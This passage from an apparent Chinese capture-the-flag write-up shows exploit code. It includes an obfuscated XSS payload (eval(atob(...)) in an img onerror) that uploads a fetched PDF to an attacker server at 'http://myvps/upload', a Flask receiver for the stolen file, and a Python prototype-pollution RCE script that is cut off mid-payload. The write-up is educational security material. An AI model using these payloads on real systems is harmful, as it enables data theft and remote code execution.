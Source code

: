```python
.then(response => response.blob())
.then(blob => {
    # 把得到的pdf上传
    return fetch('http://myvps/upload', {
        method: 'POST',
        body: blob,
    });
})
'''
    xss = "eval(atob(\"{}\"))".format(b64encode(xss_code.encode()).decode())
    payload = "<img src=1 onerror={} >".format(xss)
    exp(payload)

# 文件接收 app.py
from flask import Flask, request
from flask_cors import CORS
app = Flask(__name__)
CORS(app)

@app.route('/upload', methods=['POST'])
def upload():
    with open('./uploaded_file.pdf', 'wb') as f:
        f.write(request.data)
    return 'File uploaded and saved.'

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

成功读到密码

![6.png](6.png)

## 0x05 python原型链污染利用

读到账号密码之后就简单了，直接用python原型链污染rce，关于python原型链污染，这个[Python原型链污染变体(prototype-pollution-in-python)](https://tttang.com/archive/1876/)讲的很详细，原理攻击面利用基本都讲了，值得学习一波。

exp如下
```python
def exp(payload):
    url = "http://target:port/report"

    auth = f"engineer:123456"
    headers = {
        "Authorization": "Basic {}".format(base64.b64encode(auth.encode()).decode())
    }
    requests.post(url, headers=headers, json=payload, proxies={"http": "http://127.0.0.1:8080"})
    # 触发模板渲染->触发rce
    requests.get("http://target:port")
    print(requests.get("http://target:port/static/flag").text)


if __name__ == '__main__':
    payload = {
        "title": "1",
        "description": "3",
        "__init__": {
            "__globals__": {
                "__loader__": {
                    "__init__": {
                        "__globals__": {
                            "sys": {
                                "modules": {
```